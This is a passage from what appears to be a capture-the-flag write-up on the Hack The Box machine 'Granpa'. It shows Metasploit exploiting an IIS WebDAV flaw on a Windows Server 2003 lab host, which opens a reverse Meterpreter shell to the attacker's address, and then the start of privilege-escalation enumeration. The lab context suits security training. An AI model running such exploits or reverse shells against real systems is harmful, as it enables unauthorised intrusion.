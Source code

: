 ```
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.24      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86


msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > exploit

[*] Started reverse TCP handler on 10.10.14.24:4444
[*] Trying path length 3 to 60 ...
[*] Sending stage (176195 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.24:4444 -> 10.10.10.14:1030) at 2020-09-03 13:05:12 -0400

meterpreter > sysinfo
Computer        : GRANPA
OS              : Windows .NET Server (5.2 Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```

## Privilege Escalation

At this point, I wanted to check to see if I was part of any interesting groups and/or had any interesting privileges I could abuse.

```
meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 2668 created.
Channel 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                    SID
============================ ========
nt authority\network service S-1-5-20


GROUP INFORMATION
-----------------

Group Name                       Type             SID                                            Attributes
================================ ================ ============================================== ==================================================
```